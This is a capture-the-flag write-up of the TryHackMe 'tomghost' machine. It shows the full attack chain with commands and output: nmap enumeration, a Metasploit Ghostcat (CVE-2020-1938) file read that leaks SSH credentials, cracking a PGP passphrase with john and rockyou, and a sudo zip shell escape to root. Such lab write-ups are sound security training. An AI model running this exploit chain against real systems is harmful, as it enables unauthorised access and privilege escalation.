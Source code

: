 ```yaml
---
layout: post
title:  "THM Write-Up tomghost"
summary: Write-Up to the TryHackMe Machine tomghost
author: utnelson
date: '2022-02-10 10:35:23 +0530'
category: ['thm','write-up', 'easy']
thumbnail: /assets/img/posts/ghost_title.png
keywords: ghostcat, thm, box, easy, write-up, walkthrough
permalink: /blog/write-up-ghostcat/
---
```

Machine: [https://tryhackme.com/room/tomghost](https://tryhackme.com/room/tomghost)
## Enumeration

```console
root@machine:~$ nmap -sC -sV 10.10.114.227
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-10 12:55 CET
Nmap scan report for localhost (10.10.114.227)
Host is up (0.044s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.93 seconds
```

Nothing special on the website. So I inspected the `8080/tcp` port with `Apache Jserv (Protocol v1.3)`.  

After a short google session i found a exploit [CVE-2020-1938](https://www.exploit-db.com/exploits/48143).

Let's run metasploit for that:

```console
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v6.1.27-dev                          ]
+ -- --=[ 2196 exploits - 1162 auxiliary - 400 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: View missing module options with show 
missing

msf6 > search ghostcat

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat  2020-02-20       normal  Yes    Apache Tomcat AJP File Read


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/admin/http/tomcat_ghostcat

msf6 > use 0
msf6 auxiliary(admin/http/tomcat_ghostcat) > options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   AJP_PORT  8009              no        The Apache JServ Protocol (AJP) port
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     8080              yes       The Apache Tomcat webserver port (TCP)
   SSL       false             yes       SSL

```

Only insert the `RHOSTS` with the target IP. And `run` it.  

```console
Result:
...
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:{secret password}
  </description>

</web-app>
...
```

Nice. we found some creds `skyfuck:8730281lkjlkjdqlksalks`
## Foothold

ssh into the machine
```console
root@machine:~$ ssh skyfuck@10.10.114.227
The authenticity of host '10.10.114.227 (10.10.114.227)' can't be established.
ECDSA key fingerprint is SHA256:hNxvmz+AG4q06z8p74FfXZldHr0HJsaa1FBXSoTlnss.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.114.227' (ECDSA) to the list of known hosts.
skyfuck@10.10.114.227's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$
```

```console
skyfuck@ubuntu:~$ ls -la
total 928
drwxr-xr-x 4 skyfuck skyfuck   4096 Feb 10 04:19 .
drwxr-xr-x 4 root    root      4096 Mar 10  2020 ..
-rw------- 1 skyfuck skyfuck    136 Mar 10  2020 .bash_history
-rw-r--r-- 1 skyfuck skyfuck    220 Mar 10  2020 .bash_logout
-rw-r--r-- 1 skyfuck skyfuck   3771 Mar 10  2020 .bashrc
drwx------ 2 skyfuck skyfuck   4096 Feb 10 04:08 .cache
drwx------ 2 skyfuck skyfuck   4096 Feb 10 04:19 .gnupg
-rw-r--r-- 1 skyfuck skyfuck    655 Mar 10  2020 .profile
-rw-rw-r-- 1 skyfuck skyfuck    394 Mar 10  2020 credential.pgp
-rw-rw-r-- 1 skyfuck skyfuck 136707 Feb 10 04:20 ghostcat.txt
-rwxrwxr-x 1 skyfuck skyfuck 764159 Feb 10 01:48 linpeas.sh
-rw-rw-r-- 1 skyfuck skyfuck   5144 Mar 10  2020 tryhackme.asc
```

in the home dir are two interesting looking file `tryhackme.asc` and `credential.pgp`. Download the to your local machine.  

Run `gpg2john` for getting the hash. And crack the passphrase with the wordlist `rockyou.txt`

```console
root@machine:~$ gpg2john tryhackme.asc > hash

File tryhackme.asc

root@machine:~$ john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
{secret password}        (tryhackme)
1g 0:00:00:00 DONE (2022-02-10 13:39) 6.666g/s 7146p/s 7146c/s 7146C/s {secret password}
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Nice it worked. So You can decrypt the `credential.pgp` with that.  
Import the key with inserting the found passphrase.
```console
root@machine:~$ gpg --import tryhackme.asc 
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```
Decrypt the text.
```console
root@machine:~$ gpg --output ./plaintext.txt --decrypt ./credential.pgp 
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"

root@machine:~$ cat plaintext.txt 
merlin:{secret password}    
```
Nice new Creds for the user `merlin`  
Let's change to him.

```console
skyfuck@ubuntu:~$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ 
```
Change to home directory and there we go our `user.txt`

## Prev Escalation

First we check if there are any sudo commands we can execute. 
```console
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Quick look at [GTFOBins](https://gtfobins.github.io/gtfobins/zip/)

Run the following code:

```console
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
```

Boom! We got root. Cat the `root.txt` and you are done.


